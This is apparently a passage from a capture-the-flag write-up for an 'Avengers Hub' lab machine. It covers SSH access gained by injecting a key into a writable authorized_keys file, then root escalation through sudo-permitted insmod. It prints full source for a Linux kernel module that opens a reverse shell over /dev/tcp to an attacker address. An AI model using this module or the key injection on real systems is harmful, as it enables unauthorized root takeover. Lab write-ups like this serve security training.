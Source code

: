 ```In case of emergency, here's the MD5 hash of the admin account: b0439fae31f8xxxxxxxxxxxxxxxxxx```

Write permissions were discovered in void's `authorized_key` file, allowing unauthorized modification. A new SSH key pair was generated using ssh-keygen, and the public key was injected into the file. This enabled SSH access as void without requiring a password, securing an User shell on the system.

<img src="https://i.ibb.co/QFfd4W9r/image.png" alt="Avengers Hub" width="650">

## Privilege Escalation to root

### Kernel Module Exploitation

Running `sudo -l` revealed that user can execute `/sbin/insmod cyberavengers.ko` and `/sbin/rmmod cyberavengers` as root. And void had privileges to manage kernel modules. A custom kernel module (`cyberavengers.c`) was created for privilege escalation:

<img src="https://i.ibb.co/HDykmYZL/image.png" alt="Avengers Hub" width="650">

<div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">cyberavengers.c</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash">#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/sched.h>

static int shell_thread(void *data) {
    char *argv[] = { "/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1", NULL };
    static char *envp[] = { "HOME=/root", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init shell_init(void) {
    printk(KERN_INFO "Attempting reverse shell\n");
    kthread_run(shell_thread, NULL, "rev_shell_thread");
    return 0;
}

static void __exit shell_cleanup(void) {
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(shell_init);
module_exit(shell_cleanup);
MODULE_LICENSE("GPL");
MODULE_AUTHOR("T0xic");
MODULE_DESCRIPTION("Reverse Shell Module");</code></pre>
    </div>
</div>
```